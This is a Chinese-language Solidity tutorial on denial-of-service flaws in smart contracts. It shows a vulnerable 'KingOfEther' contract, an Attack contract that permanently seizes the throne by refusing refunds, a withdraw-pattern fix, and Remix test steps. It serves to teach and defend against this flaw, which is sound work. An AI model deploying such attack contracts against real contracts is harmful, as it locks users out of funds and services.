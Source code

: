 # 72.Denial of Service
Solidity的Denial of Service (DoS)攻击是一种恶意行为，旨在通过消耗大量资源来阻止合约的正常运行。攻击者可以通过多种方式实现DoS攻击，包括：
*无限循环：攻击者可以编写一个无限循环的代码，使合约陷入死循环，从而消耗大量的计算资源。
*大量输入：攻击者可以向合约发送大量的输入数据，使合约无法处理所有的请求，从而导致拒绝服务。
*阻塞调用：攻击者可以利用阻塞调用的漏洞，使合约陷入阻塞状态，从而无法继续执行其他操作。
## 漏洞
攻击智能合约使其无法使用的方法有很多种。
我们在这里介绍的一种利用是通过让发送以太币的函数失败来实现拒绝服务。
以太坊智能合约通常包含发送以太币的函数，这些函数允许用户将以太币转移到其他地址。攻击者可以利用漏洞或故意构造恶意输入来使这些函数失败，从而阻止其他用户发送以太币或执行其他操作。
## KingOfEther
KingOfEther的目标是通过发送比前任国王更多的以太币来成为国王。前任国王将获得他发送的以太币的退款。
```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```
## 攻击合约Attack
1. 部署KingOfEther。
2. Alice通过发送1 以太币来调用claimThrone()函数成为了国王。
3. Bob通过发送2 以太币来调用claimThrone()函数成为了国王。Alice收到了1 以太币的退款。
4. 部署Attack合约并将KingOfEther的地址作为参数。
5. 调用attack函数并发送3 以太币。
6. 当前的国王是Attack合约，没有人可以成为新的国王。

发生了什么？
Attack成为了国王。所有试图夺取王位的新挑战都将被拒绝，因为Attack合约没有回退函数，拒绝接受在新国王产生之前从KingOfEther发送的以太币。
```solidity
contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 你还可以通过使用assert消耗所有的燃料来执行DOS攻击。
    // 即使调用合约没有检查调用是否成功，此攻击也会起作用。
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
## 预防性技术
防止这种情况的一种方法是允许用户撤回他们的以太币而不是发送它。
以下是一个例子。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

## remix验证
部署合约KingOfEther，1地址通过发送1 以太币来调用claimThrone()函数成为了国王。
![72-1.png](./img/72-1.png)
2地址通过发送2 以太币来调用claimThrone()函数成为了国王。1地址收到了1 以太币的退款。
![72-2.png](./img/72-2.png)
部署Attack合约并将KingOfEther的地址作为参数。调用attack函数并发送3 以太币。当前的国王是Attack合约。
![72-3.png](./img/72-3.png)
